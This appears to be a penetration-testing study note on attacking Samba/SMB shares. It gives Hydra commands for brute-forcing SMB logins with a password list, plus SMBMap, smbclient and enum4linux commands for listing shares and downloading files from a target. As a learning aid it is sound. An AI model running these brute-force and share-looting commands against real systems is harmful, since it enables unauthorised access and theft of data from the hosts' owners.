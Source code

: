 # Exploiting Samba
> SMB is the Server Message Block network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN. Samba is the Linux implementation of SMB and it allows Windows systems to access Linux shares and devices.

Samba (SMB) Default Port: `445`
- SMB originally ran on top of NetBIOS using port `139` and you can still find machines that run both (for backwards compatibility).

## Contents
- [Intro](#intro)
  - [Susceptible to Attacks](#susceptible-to-attacks)
  - [Exploiting Samba](#exploiting-samba-1)
- [Exploits](#exploit)
  - [Hydra](#hydra-1)
  - [SMBMap](#smbmap-1)
  - [smbclient](#smbclient-1)
  - [enum4linux](#enum4linux-1)

## Intro

### Susceptible to Attacks
- Samba is susceptible to the same attacks as Windows.
  - PsExec
  - CrackMapExec
  - MetaSploit module(s)

### Exploiting Samba
- Samba utilizes username and password authentication in order to obtain access to the server or a network share.

#### [Hydra](../../hydra.md)
- We can perform a brute-force attack on the samba server in order to obtain legitimate credentials.
- After obtaining legitimate credentials, we can use a utility called SMBMap

#### [SMBMap](../../04_Enumeration/enum_smb.md#smbmap)
- Enumerate samba sare drives.
- List the contents of the shares.
- Upload/Download/Execute files.

#### [smbclient](../../04_Enumeration/enum_smb.md#smbclient)
- smbclient communicates with a LAN Manager server, offering an interface similar to that of the ftp program.
- It can be used to download files from the server to the local machine.
- It can also upload goodies from the local machine to the target.
- And it can retrieve directory information from the server.

#### [enum4linux](../../04_Enumeration/enum_smb.md#enum4linux)
- Another tool. More information.

## Exploits

### [Hydra](../../hydra.md)
```
hydra -l admin -P /usr/share/.../unix_passwords.txt smb://[target ip]
```
- Brute-force login creds with Hydra.

### [SMBMap](../../04_Enumeration/enum_smb.md#smbmap)
```
smbmap                                        # this will show you usage
smbmap -h [target ip] -u admin -p password1   # this shows you the shares (each with specified perms)
```
- Now... How do you access these shares? With smbclient...

### [smbclient](../../04_Enumeration/enum_smb.md#smbclient)
```
smbclient       # usage
man smbclient   # usage
smbclient -L [target ip] -U admin               # enter... prompted for pwd
smbclient //[target ip]/[share name] -U admin   # enter... prompted for pwd
```
- `-L`  is to List out the shares
  - This should give you pretty much the same info we got from SMBMap
- If successful, you will get a prompt: `smb: \>`
  - Look around in the share to see if there are goodies to download. If not, try the next share.
  - Lather. Rinse. Repeat.
  - To download: `get [filename]`

### [enum4linux](../../04_Enumeration/enum_smb.md#enum4linux)
```
enum4linux -a [target ip]
enum4linux -a -u admin -p password1 [target ip]   
```
- `-a`  All option to enumerate all the crap you can.
- Lots of the same info, but at the bottom it lets you know that the server does not allow null sessions (empty usernames and passwords).
  - If they were allowed, we'd get a butt ton more info from enum4linux
- There's your butt ton of information (comprehensive)
